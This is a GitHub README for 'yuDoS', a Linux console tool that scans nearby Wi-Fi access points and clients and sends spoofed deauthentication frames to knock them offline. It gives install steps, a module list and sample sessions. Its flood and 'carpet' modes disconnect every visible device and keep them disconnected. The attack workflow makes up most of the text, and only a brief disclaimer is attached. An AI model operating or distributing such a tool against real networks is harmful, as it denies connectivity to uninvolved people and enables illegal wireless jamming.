

# yuDoS
> Interactive console for wireless attack

## Features
yuDoS can scan and attack nearby network devices, taking them offline—or even keeping them offline until you stop the attack.

The following modules are available, and you can also type `use help` to view:
```bash
yuDoS > use help
Usage: use [Module]
Modules:
    probe/ap                         Scan nearby APs and get BSSID, SSID and channel
    probe/client                     Scan clients connected with specific AP and get their MACs
    probe/carpet                     Scan everything and fill discovered list
    attack/deauth/unicast/single     Send DeAuth once to one client
    attack/deauth/unicast/flood      DeAuth flood to one client
    attack/deauth/broadcast/single   Send DeAuth once to all clients of selected AP
    attack/deauth/broadcast/flood    DeAuth flood to all clients of selected AP
    attack/deauth/serial/single      Unicast DeAuth once to all clients of selected AP at the same time
    attack/deauth/serial/flood       Unicast DeAuth flood to all clients of selected AP at the same time
    attack/deauth/roster/single      Unicast DeAuth once to all clients in discovered list
    attack/deauth/roster/flood       Unicast DeAuth flood to all clients in discovered list
    attack/deauth/carpet/single      Unicast DeAuth once to all clients visible
    attack/deauth/carpet/flood       Unicast Deauth flood to all clients visible
```

## Requirements
- OS: Linux
- Compiler: gcc
- Hardware: Wireless network card that supports monitor+injection

## Installation
```bash
git clone https://github.com/yuzuki-77i/yudos.git
cd yudos
make
```

## Usage
### Basic usage
Start yuDoS and complete initialization. Select a PHY if multiple PHYs are available:  
(Or you can use `-i phyN` to select a PHY to initialize directly)
```bash
sudo bin/yudos_v1.0.0

[*] Discovered list loaded completely
[*] Found 2 wireless devices
0 : phy1 (mt76x2u)
1 : phy0 (mt7921e)
Input number to choose: 0
[*] Unblocked RF-kill
[*] Dismanaged wlan1 from NM
[*] Took wlan1 DOWN (Shares radio with phy1)
[*] Created monitor interface: phy1mon
[*] phy1mon UP
[*] Initialization completed
```
For a simple attack, you can USE a module, SET some parameters, and ATTACK:
```bash
yuDoS > use attack/deauth/unicast/single
[*] Using module attack/deauth/unicast/single
yuDoS attack(deauth/unicast/single) > set bssid 02:11:22:33:44:55
[*] Set bssid -> 02:11:22:33:44:55
yuDoS attack(deauth/unicast/single) > set target 02:aa:bb:cc:dd:ee
[*] Set target -> 02:aa:bb:cc:dd:ee
yuDoS attack(deauth/unicast/single) > set ch 1
[*] Set ch -> 1
yuDoS attack(deauth/unicast/single) > attack
[*] Starting attack/deauth/unicast/single
[+] 34 bytes sent
[*] Module attack/deauth/unicast/single terminated
```
Furthermore, you can widely probe the targets first, and then attack them:  
(The discovered list will be archived to local JSON files each exit, and loaded each initialize)
```bash
yuDoS > use probe/carpet
[*] Using module probe/carpet
yuDoS probe(carpet) > attack
[*] Starting probe/carpet
[*] Sniffing everything while hopping all channels ...
[+] New AP found: 02:11:22:33:44:55     ch1      example.ssid
[+] New client found: 02:aa:bb:cc:dd:ee
[*] Got 31 packets, latest 852 bytes
[+] New AP found: 02:11:22:33:44:56     ch1      example.ssid
^C
[*] Module probe/carpet terminated
yuDoS probe(carpet) > use attack/deauth/roster/flood
[*] Using module attack/deauth/roster/flood
yuDoS attack(deauth/roster/flood) > attack
[*] Starting attack/deauth/roster/flood
[*] Picked 30 client(s) from discovered list
[*] Flooding 30 client(s) on 11 channel(s) ...
[+] 350 frames sent
[+] 2 frames sent
[+] 2 frames sent
[+] 3 frames sent
[+] 2 frames sent
[+] 2 frames sent
[+] 7 frames sent
^C
[+] 2 frames sent
[*] Module attack/deauth/roster/flood terminated
```
Or you can also use the carpet modules directly, they will probe and attack all visible targets without discovered list:
```bash
yuDoS > use attack/deauth/carpet/flood
[*] Using module attack/deauth/carpet/flood
yuDoS attack(deauth/carpet/flood) > attack
[*] Starting attack/deauth/carpet/flood
[*] Flooding clients on all channels ...
[*] Target added: 02:aa:bb:cc:dd:ee
[+] 3 frames sent
[*] Target added: 02:aa:bb:cc:dd:ef
[+] 1 frames sent
[+] 1 frames sent
[+] 1 frames sent
[+] 4 frames sent
[+] 1 frames sent
[*] Total 14 frames sent to 2 target(s), speed 0.933197 fps, 14 succeed, 0 failed
[+] 3 frames sent
[+] 1 frames sent
[+] 4 frames sent
[*] Target added: 02:aa:bb:cc:dd:e0
[+] 1 frames sent
[+] 1 frames sent
[+] 4 frames sent
[*] Target added: 02:aa:bb:cc:dd:e1
[+] 1 frames sent
[*] Target added: 02:aa:bb:cc:dd:e2
[+] 4 frames sent
[*] Total 30 frames sent to 5 target(s), speed 1.059470 fps, 30 succeed, 0 failed
^C
[*] Module attack/deauth/carpet/flood terminated
```
### Others
- yuDoS supports `-x COMMAND(S)` to execute internal command without interactive console, `-r FILE` to load and execute the resource file.
Use `yudos -h` for additional help of global flags.  
- Within the console, use `help` for additional help of internal command.
- Within the console, use `[Command] help` like `set help` for additional help of subcommands or parameters.

## Live demo



## How it works
### Root privileges required
yuDoS needs to free or restore the radio of PHY, and create or remove a monitor interface. These commands need root privileges to execute.  
At the same time, the state files (like discovered list JSON files) will be owned exclusively by root.  
### DeAuth frame
When probing, yuDoS catches any data frame from the air, and then parses them and gets information of APs & clients.  
And then while attacking, yuDoS builds a DeAuth frame that masquerades as an AP and sends it to clients. This will make clients disconnect to AP, and auto be back in 0~1 seconds.  
If you want a continuous suppression, you can use flood modules instead of single. This will keep clients offline.

## License & Disclaimer
[LICENSE](LICENSE)

This project is for testing purposes. Actually, the author doesn't suggest that users use this tool illegally. The author assumes no responsibility for any misuse, damage, or legal consequences resulting from the use of this software.

